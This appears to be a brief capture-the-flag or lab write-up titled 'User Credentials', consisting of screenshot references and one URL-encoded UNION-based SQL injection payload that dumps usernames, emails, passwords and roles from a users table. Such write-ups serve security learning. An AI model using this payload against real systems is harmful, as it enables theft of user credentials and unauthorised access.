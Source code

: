 # User Credentials

![alt text](assets/usercred1.png)

![alt text](assets/usercred2.png)

```sql
apple'))+UNION+SELECT+id,username,email,password,role,profileImage,isActive,lastLoginIp,deletedAt+FROM+users+--
```

![alt text](assets/usercred3.png)

![alt text](assets/usercred4.png)